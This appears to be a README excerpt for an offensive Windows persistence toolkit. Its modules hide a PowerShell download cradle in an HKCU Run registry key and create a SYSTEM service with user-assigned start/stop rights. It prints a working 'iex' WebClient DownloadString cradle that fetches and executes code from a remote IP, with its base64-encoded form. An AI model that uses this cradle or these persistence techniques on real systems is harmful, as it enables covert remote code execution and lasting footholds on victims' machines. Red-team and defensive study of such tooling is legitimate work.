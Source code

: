 ## Modules

### PowerShell HKCU via PSReflect

Accepts a basic base64'd (to avoid escaping pain) download cradle.  Writes it to HKCU\Software\Microsoft\Windows\Run\\`0pwned using a modified version of [PSReflect](https://github.com/mattifestation/PSReflect) and [RegHide](https://gist.github.com/brianreitz/feb4e14bd45dd2e4394c225b17df5741#file-psreflect-reghide-ps1).

![HKCU (PSH)](images/hkcu_psh.png)

Basic Example:

`iex ([System.Net.WebClient]::New().DownloadString('http://192.168.56.100/a'))`
`aQBlAHgAIAAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AF0AOgA6AE4AZQB3ACgAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA2AC4AMQAwADAALwBhACcAKQApAA==`

### Windows Service Persistence

Creates a Windows Service (running as SYSTEM) with the specified options and uses `sc sdset` to assign start/stop permissions to the user SID. Requires you to manually upload a payload.

![Service](images/service.png)